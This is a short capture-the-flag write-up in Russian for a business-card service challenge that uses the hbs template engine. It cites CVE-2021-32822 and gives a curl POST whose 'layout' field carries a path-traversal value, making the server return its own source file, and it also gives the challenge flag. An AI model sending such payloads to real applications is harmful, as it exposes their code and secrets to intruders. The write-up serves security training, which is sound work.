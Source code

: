 # visitka
### Сложность
Сложно.
### Описание
Скинули сервис по созданию визиток, круто правда?
### Hint
- Шаблонизатор HBS, интересно что бы это могло значить
- В шаблонизатор мы передаем параметры и их мы можем использовать в своих целях!
### Решение
 - https://www.cvedetails.com/cve/CVE-2021-32822/, на сервере используется шаблонизатор hbs, в котором есть уязвимость получение rce, так как у нас роутер принимает параметр мы можем использовать его в своих целях, например читать файлы исходного кода!
- Этим мы и воспользуемся:
    curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://localhost:9090/'
### Флаг
CTF{bEst_lay0ut}
 

